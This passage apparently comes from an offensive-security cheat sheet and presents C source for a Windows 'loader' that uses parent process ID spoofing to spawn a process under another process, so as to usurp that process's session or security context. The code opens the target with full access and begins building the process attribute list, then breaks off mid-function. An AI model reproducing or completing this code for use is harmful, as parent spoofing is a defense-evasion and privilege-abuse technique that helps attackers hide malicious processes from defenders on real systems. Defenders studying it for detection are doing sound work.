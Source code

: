###### [Windows] Basic C loader - Create process with parent spoofing

The following `C` code can be used to spawn a process as the child of another
specified process (allowing for cross sessions or user security context
usurpation):

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <wincrypt.h>
#include <psapi.h>
#include <tchar.h>
#include <tlhelp32.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#pragma comment (lib, "kernel32")

int main(int argc, char** argv) {

    HANDLE hProc = NULL;
    STARTUPINFOEX si;
    PROCESS_INFORMATION pi;
    int pid = 0;
    SIZE_T szAttributeList = 0;
    BOOL ret;

    ZeroMemory(&si, sizeof(STARTUPINFOEX));

    Sleep(2000);

    if (argc != 2) {
        printf("Usage: SpawnChildProcess.exe <PID>\n");
        return -1;
    }

    DWORD tPid = atoi(argv[1]);

    hProc = OpenProcess(PROCESS_ALL_ACCESS, false, tPid);
    if (!hProc) {
#ifdef _DEBUG
        printf("[!][OpenProcess] Error opening target process: [%d]\n", GetLastError());
#endif
        return -1;
    }
#ifdef _DEBUG
    else {

        printf("[*][OpenProcess] Handle to target process opened.\n");
    }
#endif

    // First call to InitializeProcThreadAttributeList to retrieve the AttributeList size.
    InitializeProcThreadAttributeList(NULL, 1, 0, &szAttributeList);
    if (GetLastError() != ERROR_INSUFFICIENT_BUFFER) {
#ifdef _DEBUG
        printf("[!][InitializeProcThreadAttributeList] First call to InitializeProcThreadAttributeList failed: [%d]\n", GetLastError());
#endif
        CloseHandle(hProc);
        return -1;
```